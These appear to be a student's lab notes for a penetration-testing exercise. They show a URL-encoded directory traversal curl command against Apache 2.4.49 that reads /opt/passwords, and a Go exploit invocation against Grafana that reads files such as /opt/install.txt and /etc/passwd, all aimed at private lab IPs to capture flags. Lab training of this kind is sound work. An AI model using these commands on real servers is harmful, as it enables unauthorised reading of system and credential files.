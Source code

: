 
1. In this section, we used URL encoding to exploit the directory traversal vulnerability in Apache 2.4.49 on VM #1. Use _Burp_ or **curl** to display the contents of the **/opt/passwords** file via directory traversal in the vulnerable Apache web server. Remember to use URL encoding for the directory traversal attack. Find the flag in the output of the file.

```bash
curl http://192.168.174.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords
```
![[Pasted image 20250311221111.png]]

2. Grafana is running on port 3000 on VM #2. The version running is vulnerable to the same directory traversal vulnerability as in the previous section. While URL encoding is not needed to perform a successful directory traversal attack, experiment with URL encoding different characters of your request to display the contents of **/etc/passwd**. Once you have a working request utilizing URL encoding, obtain the flag by displaying the contents of **/opt/install.txt**.

```bash
# Directory Traversal for Grafana
go run exploit.go -target http://192.168.174.16:3000 -file /opt/install.txt
```
![[Pasted image 20250311221300.png]]
